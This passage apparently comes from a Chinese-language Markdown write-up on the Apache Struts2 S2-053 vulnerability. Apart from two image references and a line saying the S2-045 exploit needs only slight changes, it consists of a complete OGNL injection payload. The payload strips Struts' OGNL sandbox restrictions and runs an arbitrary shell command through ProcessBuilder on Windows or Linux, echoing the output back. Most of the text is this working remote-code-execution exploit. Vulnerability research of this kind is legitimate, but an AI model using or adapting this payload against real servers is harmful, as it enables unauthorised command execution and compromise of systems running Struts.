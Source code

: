 <img src="pic/struts2_s2-053_7.png">
  
<img src="pic/struts2_s2-053_8.png">
  
### 可回显PoC

拿S2-045的exploit稍微修改一下便可：
```
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.getExcludedPackageNames().clear()).
		(#ognlUtil.getExcludedClasses().clear()).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))
}
```
